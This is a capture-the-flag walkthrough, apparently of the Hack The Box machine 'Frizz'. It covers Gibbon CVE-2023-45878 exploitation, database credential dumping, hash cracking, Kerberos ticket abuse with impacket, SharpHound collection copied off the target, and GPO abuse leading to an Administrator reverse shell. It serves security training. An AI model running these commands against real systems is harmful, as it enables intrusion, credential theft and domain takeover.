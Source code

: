 ![](Pasted%20image%2020250412202324.png)
# A.  Service Enumeration
| IP  | Port                                                                                   |
| --- | -------------------------------------------------------------------------------------- |
| TCP | 22,53,80,88,135,139,389,445,464,636,3268,3269,9389,49664,49667,49670,52427,52431,52440 |
| UDP | 53,88,125                                                                              |
## 1. TCP Active Port
![](Pasted%20image%2020250412205821.png)
-sV
![](Pasted%20image%2020250415093944.png)
## 2. UDP Active Port
![](Pasted%20image%2020250415093326.png)
## 3. Domain
```
LOCALHOST -> FRIZZDC
LDAP Domain -> frizz.htb0.
WEb Domain -> frizzdc.frizz.htb
```
# B. Initial Access
## 1. Web - frizzdc.frizz.htb
![](Pasted%20image%2020250415093433.png)

Web used Gibbon **v25.0.00**, lets check the cve🔥
### a. Default Password
nope
### b. Searchsploit
![](Pasted%20image%2020250415094441.png)
need credentials
### c. Dorking
#### - CVE-2023-34598
https://github.com/maddsec/CVE-2023-34598
![](Pasted%20image%2020250415100932.png)
#### - CVE-2023-45878
RCE
https://github.com/davidzzo23/CVE-2023-45878 -> not work
https://github.com/killercd/CVE-2023-45878.git -> work, but it hard to running reverse shell from here

![](Pasted%20image%2020250415133256.png)
https://github.com/0xyy66/CVE-2023-45878_to_RCE.git  -> work
![](Pasted%20image%2020250415140015.png)
![](Pasted%20image%2020250415140036.png)
## 2. Windows Shell exploration
```
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

```
![](Pasted%20image%2020250415142540.png)
## 3. Access mysql db
```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
```
![](Pasted%20image%2020250417104239.png)
```
username
f.frizzle

Password Hash
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03

Password Salt
/aACFhikmNopqrRTVz2489

email
f.frizzle@frizz.htb
```
## 4. Crack hash
Identified hash
![](Pasted%20image%2020250417125631.png)
search hash format on google "gibbon" "hash", and found this
![](Pasted%20image%2020250417135706.png) 
check format on hashcat
![](Pasted%20image%2020250417140002.png)
![](Pasted%20image%2020250417140251.png)
```
Jenni_Luvs_Magic23
```
## 5. Use the Credentials
```
f.frizzle
Jenni_Luvs_Magic23
```
creat kbr5.conf
![](Pasted%20image%2020250417160709.png)
generate ticketing
```
ntpdate frizzdc.frizz.htb  
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb  
export KRB5CCNAME=f.frizzle.ccache
ssh f.frizzle@frizz.htb -K
```
![](Pasted%20image%2020250417160819.png)
get user flag
# C. Privilege Escalation
## 1. Shell Exploration
Users
![](Pasted%20image%2020250418214006.png)
whoami all/
![](Pasted%20image%2020250418214254.png)

## 2. Bloodhound
genertate data passwordnya kerberos -> not works
![](Pasted%20image%2020250418215342.png)
generate againt with password string -> works tapi bedaaa hasilnya
![](Pasted%20image%2020250419135635.png)
generate again using sharphound.exe
![](Pasted%20image%2020250421101300.png)
```
SharpHound.exe --CollectionMethods All --ZipFileName output.zip
```
![](Pasted%20image%2020250421101347.png)
move the zip file to our local system
```
scp f.frizzle@frizz.htb:./20250329024808_output.zip result.zip
```
search for administrator group and look for group member-direct member, click that. It tells us for access administrator, we can use m.schoolbus@frizz.htb
![](Pasted%20image%2020250421102502.png)
After exploring BloodHound, we found a misconfiguration: GPO Abuse. Only the Administrator should be in the **Group Policy Creator Owners** group, but **M.SchoolBuz@Frizz.htb** is also a member by mistake. This means if we obtain the credentials for **m.schoolbuz**, we can escalate privileges to Administrator.
![](Pasted%20image%2020250421104810.png)

try to explore recyble bin, and found 7z file
![](Pasted%20image%2020250421130403.png)

copy the file to local machine
![](Pasted%20image%2020250421130527.png)
## 3. Wapt
extract the 7z file
![](Pasted%20image%2020250421130636.png)
![](Pasted%20image%2020250421130904.png)
```
cat wapt-get.ini.tmpl

...
;wapt_user=admin
;wapt_password=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
;waptservice_port=8088
...
```
![](Pasted%20image%2020250421131004.png)

another crendetial
![](Pasted%20image%2020250421132415.png)
```
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
```

decode base64
![](Pasted%20image%2020250421132620.png)
```
!suBcig@MehTed!R
```
check what account is used that password, fortunately this is m.schoolbus password yeeeee
![](Pasted%20image%2020250421134049.png)
generate tickeing kerberos for account m.schoolbus and successfully access the shell
![](Pasted%20image%2020250421134513.png)

## 4. Abusing GPO
show GPO
![](Pasted%20image%2020250421140550.png)
make new GPO
![](Pasted%20image%2020250421141039.png)
Check new GPO that recently we've made
![](Pasted%20image%2020250421141116.png)
scp sharpgpo abuse anda runassc to target machine
https://github.com/byronkg/SharpGPOAbuse
https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

![](Pasted%20image%2020250422043705.png)

Run SharpGPOAbuse for make m.schoolbus have same privilege with administrator
![](Pasted%20image%2020250422045747.png)

Run runascs for get shell of administrator, dont forget set up listener
![](Pasted%20image%2020250422050246.png)

Successfully get root.txt
![](Pasted%20image%2020250422050327.png)
# D. Post Exploitation
## 1. User Flag
Medium
## 2. Root Flag
Medium
